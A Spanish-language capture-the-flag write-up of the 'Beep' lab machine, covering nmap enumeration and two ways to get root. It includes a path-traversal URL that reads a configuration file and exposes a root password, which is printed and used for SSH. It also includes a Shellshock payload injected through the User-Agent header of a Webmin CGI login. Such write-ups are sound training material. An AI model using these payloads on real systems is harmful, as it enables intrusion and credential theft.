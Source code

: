 #  BEEP MACHINE

**Autor: Christian Jimenez**

![logo](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/1.PNG)

## INDEX

- [[#ESCANEO Y ENUMERACION|ESCANEO Y ENUMERACION]]
- [[#EXPLOTACION|EXPLOTACION]]
	- [[#LOCAL FILE INCLUSION|LOCAL FILE INCLUSION]]
	- [[#SHELLSHOCK|SHELLSHOCK]]


## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 -v -n 10.10.10.7 -oG allPorts
```

La salida nos muesta los puertos 22,25,80,110,111,143,443,879,993,995,3306,4190,4445,4559,5038,10000 abiertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/2.PNG)

Vamos a realizar una enumeracion de los servicios en los puertos:

```bash
nmap -p22,25,80,110,111,143,443,879,993,995,3306,4190,4445,4559,5038,10000 -sV -sC 10.10.10.7 -oN targeted
```

y esta es la salida:

```bash
# Nmap 7.91 scan initiated Mon Jul 19 10:20:37 2021 as: nmap -p22,25,80
       │  targeted 10.10.10.7
   2   │ Nmap scan report for 10.10.10.7
   3   │ Host is up (0.20s latency).
   4   │ 
   5   │ PORT      STATE SERVICE    VERSION
   6   │ 22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
   7   │ | ssh-hostkey: 
   8   │ |   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
   9   │ |_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
  10   │ 25/tcp    open  smtp       Postfix smtpd
  11   │ |_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETR
       │ N, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
  12   │ 80/tcp    open  http       Apache httpd 2.2.3
  13   │ |_http-server-header: Apache/2.2.3 (CentOS)
  14   │ |_http-title: Did not follow redirect to https://10.10.10.7/
  15   │ 110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
  16   │ |_pop3-capabilities: USER TOP STLS PIPELINING IMPLEMENTATION(Cyrus POP3
       │  server v2) APOP AUTH-RESP-CODE RESP-CODES EXPIRE(NEVER) UIDL LOGIN-DEL
       │ AY(0)
  17   │ 111/tcp   open  rpcbind    2 (RPC #100000)
  18   │ 143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
  19   │ |_imap-capabilities: THREAD=REFERENCES IMAP4 ATOMIC CATENATE RIGHTS=kxt
       │ e SORT URLAUTHA0001 X-NETSCAPE SORT=MODSEQ LIST-SUBSCRIBED BINARY ACL L
       │ ISTEXT IDLE LITERAL+ CONDSTORE MULTIAPPEND OK THREAD=ORDEREDSUBJECT UNS
       │ ELECT ANNOTATEMORE NO IMAP4rev1 QUOTA Completed CHILDREN ID UIDPLUS MAI
       │ LBOX-REFERRALS NAMESPACE RENAME STARTTLS
  20   │ 443/tcp   open  ssl/https?
  21   │ | ssl-cert: Subject: commonName=localhost.localdomain/organizationName=
       │ SomeOrganization/stateOrProvinceName=SomeState/countryName=--
  22   │ | Not valid before: 2017-04-07T08:22:08
  23   │ |_Not valid after:  2018-04-07T08:22:08
  24   │ |_ssl-date: 2021-07-19T14:17:49+00:00; -6m16s from scanner time.
  25   │ 879/tcp   open  status     1 (RPC #100024)
  26   │ 993/tcp   open  ssl/imap   Cyrus imapd
  27   │ |_imap-capabilities: CAPABILITY
  28   │ 995/tcp   open  pop3       Cyrus pop3d
  29   │ 3306/tcp  open  mysql      MySQL (unauthorized)
  30   │ |_ssl-cert: ERROR: Script execution failed (use -d to debug)
  31   │ |_ssl-date: ERROR: Script execution failed (use -d to debug)
  32   │ |_sslv2: ERROR: Script execution failed (use -d to debug)
  33   │ |_tls-alpn: ERROR: Script execution failed (use -d to debug)
  34   │ |_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
  35   │ 4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5
       │ _6.4 (included w/cyrus imap)
  36   │ 4445/tcp  open  upnotifyp?
  37   │ 4559/tcp  open  hylafax    HylaFAX 4.3.10
  38   │ 5038/tcp  open  asterisk   Asterisk Call Manager 1.1
  39   │ 10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
  40   │ |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1)
       │ .
  41   │ Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localho
       │ st; OS: Unix
  42   │ 
  43   │ Host script results:
  44   │ |_clock-skew: -6m16s
  45   │ 
  46   │ Service detection performed. Please report any incorrect results at htt
       │ ps://nmap.org/submit/ .
  47   │ # Nmap done at Mon Jul 19 10:27:14 2021 -- 1 IP address (1 host up) sca
       │ nned in 397.24 seconds

```

son muchos puertos asi que vamos a empezar con el 80, si ingresamos a la pagina vemos que tiene un certificado autofirmado y es un panel de login:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/3.PNG)

Buscamos credenciales por defecto pero ninguna funciono.

La enumeracion de directorios con wfuzz mostró algunas carpetas pero no fue de mucha ayuda al revisar cada una.

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/4.PNG)

En el login muestra el servicio que esta alojado en la pagina (elastix), no tenemos la version pero buscamos en searchsploit de todas formas: 

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/5.PNG)

Vemos varios resultados, pero en este caso intentando con el Local File Inclusion se tiene algo interesante.

## EXPLOTACION

### LOCAL FILE INCLUSION

si examinamos el exploit de local file inclusion se una ruta que podemos probar:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/6.PNG)

colocamos esa ruta junto a la direccion IP en el navegador:

```html
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

Y obtenemos lo siguiente:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/7.PNG)

Para darle un mejor formato hacemos Ctrl+u y si bajamos vemos unas credenciales:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/8.PNG)

podemos leer diferentes archivos con el LFI y se tiene 2 usuarios potenciales donde se cree que esta la flag: root y fannis. Auque se podria entrar como otro usuario y hacer un movimiento lateral , se tiene el puerto 22 abierto y si intentamos con root o fannis y la contraseña encontrada en el LFI tenemos exito con root:

user: root
pass: jEhdIekWmdjE

```bash
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7 
```

El parametro **-oKexAlgorithms=+diffie-hellman-group1-sha1** es porque nos daba un error de negociacion de claves.

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/9.PNG)

Ok eso fue demasiado sencillo, pero se puede explotar de mas formas.

### SHELLSHOCK

Vemos que estaba el puerto 10000 abierto con un servicio http:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/10.PNG)

si ingresamos vemos un panel de inicio de sesion:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/11.PNG)

si colocamos admin y password (o cualquier otra credencial) nos dice que es incorrecto pero en la url veo que se agrega un archivo **session_login.gci**: 

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/12.PNG)

cuando se ve un archivo de tipo .cgi se puede probar el ataque shellshock, esto si la shell es vulnerable.

Estos archivos interactuan con una bash y si es una bash vulnerable es posible ejecutar comandos arbitrarios.

La vulnerabilidad esta en la inyeccion de comandos en variables de entorno, sabemos podemos definir una variable de entorno de la siguiente manera:

```bash
export SALUDO="hola mundo"

echo $SALUDO #hola mundo
```

tambien es posible almacenar dentro de una variable de entorno una funcion escrita en bash que tiene la siguiente sintaxis:

```bash

nombre_funcion(){contenido}

#EJEMPLO

export saludo="(){echo \"hola mundo\"}"

bash -c 'saludo' #hola mundo
```

En este ejemplo no es necesario colocar un nombre de funcion y estamos escapando las comillas dobles. Dentro de una variable de entorno declarada como si tuviera una funcion se puede ejecutar comandos del sistema, en este caso hicimos un simple echo dentro de la funcion.

Sabemos que con **;** se puede concatenar comandos, que pasa si colocamos lo siguiente:

```bash
export saludo="(){:;}; whoami"
```

Pues si la bash es vulnerable es posible realizar la ejecucion de comandos, ya que despues de una funcion que no hace nada se esta concatenando otro comando mendiante el **;**.

A veces es necesario colocar 1 o 2 **echo;** despues de la funcion o antes del comando.

Ahora a nivel web esto se puede coloacr en una cabecera, por ejemplo el **User-Agent** ya que en el servidor web estas cabeceras las reconoce como variables de entorno.

Entonces volviendo a la maquina, si con burpsuite interceptamos la peticion que se realiza al **session_login.cgi** y en su cabecera **User-Agent** probamos esta inyeccion de payload veamos si podemos obtener una reverse shell:

interceptamos la peticion poniendo cualquier dato y modificarmos esa cabecera:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/13.PNG)

si ahora eso lo mandamo por el repiter y nos colocamos en escucha con netcat:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BEEP/images/14.PNG)

Vemos que tenemos ejecucion remota de comandos como Root y ya podriamos leer las flags.



